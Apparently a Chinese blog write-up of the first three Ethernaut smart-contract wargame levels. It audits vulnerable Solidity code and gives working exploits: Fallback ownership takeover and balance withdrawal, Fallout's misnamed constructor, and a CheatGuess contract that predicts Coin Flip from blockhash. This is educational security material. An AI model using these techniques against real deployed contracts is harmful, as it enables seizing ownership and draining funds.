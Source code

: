 title: Ethernaut靶场记录
author: John Jue
date: 2023-10-11 13:41:43
tags:
---
# 1.Fallback

本关有两个要求
<li>获得这个合约的所有权
<li>把他的余额减到0
  
先使用 `contract`查看合约的 abi以及函数信息 

![upload successful](./images/pasted-726.png)
然后去审计一下合约代码，找到变更合约owner的入口
```SOL
function contribute() public payable {
  require(msg.value < 0.001 ether);
  contributions[msg.sender] += msg.value;
  if(contributions[msg.sender] > contributions[owner]) {
    owner = msg.sender;
  }
}
```
可以看到如果贡献值超过owner，即可获得合约拥有权，但是
```SOL
constructor() {
  owner = msg.sender;
  contributions[msg.sender] = 1000 * (1 ether);
}
```
合约owner的贡献为1000，很难超过，所以审计如下代码
```SOL
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender;
}
```
发送以太币：发送者必须在向合约发送以太币的交易中包含一定数量的以太币，即 `msg.value > 0`。
且之前贡献过：发送者的地址必须在合约的贡献映射 `contributions` 中具有非零的贡献金额，即 `contributions[msg.sender] > 0`。
可以推出，我们只需要往合约连续转两次eth即可拿到合约owner。

控制台输入`await contract.contribute({value:1})`

![upload successful](./images/pasted-727.png)
然后调用`await contract.getContribution()`来查看一下贡献

![upload successful](./images/pasted-729.png)
发现贡献为1，满足`receiver()`的限制，使用`await contract.sendTransaction({value:1})`构造转账给合约

![upload successful](./images/pasted-730.png)

查看合约owner，确认是不是player

![upload successful](./images/pasted-731.png)
可以看到已经成功更改，最后调用`await contract.withdraw()`取出所有余额，提交实例。

成功
![upload successful](./images/pasted-732.png)

# 2.Fallout
题目提示`Solidity Remix IDE`可能会有帮助，`Solidity Remix IDE`是一个web端的SOL代码编写工具
关卡要求：
<li>合约的所有权

首先还是用`contract`查看合约的abi以及函数

![upload successful](./images/pasted-733.png)

进行代码审计，发现合约名字为Fallout，但是如下代码中写成了Fal1out 
```SOL
/* constructor */
function Fal1out() public payable {
  owner = msg.sender;
  allocations[owner] = msg.value;
}
```
这段代码导致所有人都可以调用Fal1out()，而不只是合约owner，所以，我们也可以调用该函数。
先使用`await contract.owner()`查看合约拥有者

![upload successful](./images/pasted-734.png)
调用`await contract.Fal1out({value:1})`往里进行转账，获取合约所有权。

![upload successful](./images/pasted-735.png)
确认owner为player，提交通关

# 3.Coin Flip
该合约的通关要求为
<li>掷硬币的游戏，你需要连续的猜对结果。完成这一关，你需要通过你的超能力来连续猜对十次。

合约地址为：0xb3b41329530970733e6c049F0C81488313D22442
先进行代码审计，合约主函数如下：
```SOL
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
```
代码意思为：硬币的正反面是由当前区块前一区块的高度所决定的。如果我们不知道当前区块高度是多少，就难以提前预知硬币的正反面。且同时，合约通过lastHash保证同一区块只能有一次提交。
大概思路为：新建自己的智能合约，提前预测硬币正反面，并向关卡合约发出请求。
编写攻击合约，其中`CoinFlipAttack`就是我们的攻击合约，而`CoinFlip`和`CoinFlipInterface`都是为目标合约提供abi接口而定义的：
```SOL
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'https://github.com/OpenZeppelin/openzeppelin-contracts/blob/6be0b410dcb77bc046cd3c960b4170368c502162/contracts/math/SafeMath.sol';
contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}


contract CheatGuess {
  using SafeMath for uint256;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  address originalAddress = 0xb3b41329530970733e6c049F0C81488313D22442;  //实例合约地址
  CoinFlip public originalContract = CoinFlip(originalAddress);

  function cheat() public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    
    originalContract.flip(side);
  }

}
```
需要将`address originalAddress`改为靶场合约地址，在部署页面，选择Injected Web3，连接Metamask钱包。

![upload successful](./images/pasted-736.png)
使用小狐狸授权部署，点击左侧cheat，支付gas

![upload successful](./images/pasted-737.png)
我们可以发下如下图

![upload successful](./images/pasted-738.png)
猜测成功次数增加了，发送十次即可

![upload successful](./images/pasted-739.png)
提交通关
